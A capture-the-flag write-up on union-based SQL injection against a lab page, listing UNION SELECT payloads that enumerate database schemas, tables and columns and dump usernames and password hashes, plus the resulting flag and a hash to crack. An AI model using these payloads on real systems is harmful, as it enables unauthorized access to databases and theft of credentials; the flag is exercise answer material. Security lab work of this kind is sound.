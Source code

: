 # UNION BASED SQL INJECTION

## Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Discovery
go to ==> http://{IP_ADDRESS}/index.php?page=member


https://www.sqlinjection.net/table-names/

-1 UNION ALL SELECT table_name,concat(column_name) FROM information_schema.COLUMNS 

Get database names:
>Retrieve database names:
>	-1 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata--
>Retrieve tables names:
>	-1 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='Member_Sql_Injection'--
-1 UNION ALL SELECT table_name,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='table1'

-1 UNION SELECT username, password FROM db_default WHERE username=admin
-1 UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='users'
-1 UNION SELECT first_name, countersign FROM users
-1 UNION SELECT username, password FROM db_default WHERE user_id=5


|user_id|first_name|last_name|town|country|planet|commentaire|countersign|
|5|flag|GetThe|42|42|42|Decrypt this password -> then lower all the char. Sh256 on it and it's good !|5ff9d0165b4f92b14994e5c685cdce28|

## Helpers:
- [retrieve data from db](https://www.sqlinjection.net/table-names/)
- [dcode - cipher identifier](https://www.dcode.fr/cipher-identifier)
- [md5decrypt - md5](https://md5decrypt.net/en/)
